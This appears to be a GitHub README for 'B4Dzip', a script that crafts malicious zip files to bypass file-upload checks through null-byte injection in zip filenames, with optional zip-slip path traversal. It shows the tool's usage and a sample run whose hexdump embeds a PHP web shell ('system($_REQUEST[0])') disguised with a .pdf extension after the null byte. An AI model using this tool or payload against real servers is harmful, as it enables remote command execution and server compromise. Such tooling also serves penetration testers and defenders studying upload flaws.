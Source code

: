 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection. The vulnerability
occurs due to an incorrect validation of the Central Directory Header filename.

<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       30  2023-08-30 22:43   7f2f6c24e7de64ed.php
---------                     -------
       30                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 13 aa  |PK........i..W..|
00000010  a2 09 1e 00 00 00 1e 00  00 00 14 00 00 00 37 66  |..............7f|
00000020  32 66 36 63 32 34 65 37  64 65 36 34 65 64 2e 70  |2f6c24e7de64ed.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 24  |hp<?php system($|
00000040  5f 52 45 51 55 45 53 54  5b 30 5d 29 3b 20 3f 3e  |_REQUEST[0]); ?>|
00000050  50 4b 01 02 1e 03 0a 00  00 00 00 00 69 b5 1e 57  |PK..........i..W|
00000060  13 aa a2 09 1e 00 00 00  1e 00 00 00 19 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  a4 81 00 00 00 00 37 66  |..............7f|
00000080  32 66 36 63 32 34 65 37  64 65 36 34 65 64 2e 70  |2f6c24e7de64ed.p|
00000090  68 70 00 2e 70 64 66 50  4b 05 06 00 00 00 00 01  |hp..pdfPK.......|
000000a0  00 01 00 47 00 00 00 50  00 00 00 00 00           |...G...P.....|
000000ad
```
